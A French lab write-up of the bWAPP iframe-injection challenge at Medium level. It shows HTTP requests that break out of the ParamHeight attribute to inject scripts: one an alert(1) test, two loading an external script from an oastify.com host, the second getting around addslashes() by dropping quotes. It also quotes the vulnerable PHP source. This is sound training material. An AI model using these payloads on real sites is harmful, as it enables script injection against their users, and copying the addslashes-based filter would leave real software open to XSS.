 # Niveau "Medium"

## Exploitation

La page du challenge permet de charger une `<iframe></iframe>`. L'URL admet 3 paramètres :&#x20;

* le premier, `ParamURL`, est l'URL cible de l'iframe, ayant comme valeur par défaut "robots.txt"
* le second et la troisième, `ParamWidth` et `ParamHeight`, sont la taille en largeur et en hauteur de l'iframe, ayant comme valeur par défaut "250"

Ici, modifier l'URL de l'iframe via le paramètre `ParamURL` ne semble pas fonctionner. Qu'importe sa valeur, le fichier "robots.txt" est affiché :

![](<../../../../../.gitbook/assets/image (8) (1).png>)

Naturellement, l'injection via le paramètre d'URL `ParamUrl` ne fonctionne donc également pas. Il faut s'intéresser aux deux autres paramètres présents dans l'URL, qui eux peuvent être modifiés et ne semble pas être assainis :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (21).png>)

## Analyse du code source

L'application spécifie la valeur du `src` de l'iframe directement à la valeur "robots.txt" et ne tient pas compte de la valeur présente dans le paramètre d'URL `ParamUrl`. Ce n'est pas le cas des paramètres concernant la taille de l'iframe :&#x20;

{% code title="iframei.php" %}
```php
<?php
  if($_COOKIE["security_level"] == "1" || $_COOKIE["security_level"] == "2") {
?>
    <iframe frameborder="0" src="robots.txt" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
?>
```
{% endcode %}

La méthode `xss()` est un `switch` exécutant une certaine méthode selon le niveau de sécurité actuel (1 dans le cas du niveau "Medium") : &#x20;

{% code title="iframei.php" %}
```php
function xss($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);      
      break;
    case "1" :
      $data = xss_check_4($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;   
  }

  return $data;
}
```
{% endcode %}

La méthode `xss_check_4()`, qui est censée assainir les paramètres renseignés par l'utilisateur, est exécutée :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_4($data) {
    // addslashes - returns a string with backslashes before characters that need to be quoted in database queries etc.
    // These characters are single quote ('), double quote ("), backslash (\) and NUL (the NULL byte).
    // Do NOT use this for XSS or HTML validations!!!

    return addslashes($data);
}
```
{% endcode %}

La méthode `addslashes()` permet d'échapper (en ajoutant un anti-slash) les caractères guillemets simples ( ' ), guillemets doubles ( " ), antislash (\\) et l'octet NUL :

![](<../../../../../.gitbook/assets/image (5) (2).png>)

Cela peut poser problème lorsque l'injection tente d'appeler un script externe par exemple :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=%22https://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%22%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: closeHTTP
```

![](<../../../../../.gitbook/assets/image (31).png>)

Le contournement est assez simple ici puisqu'il suffit de supprimer les guillemets, le navigateur va les ajouter automatiquement :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=http://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (26).png>)
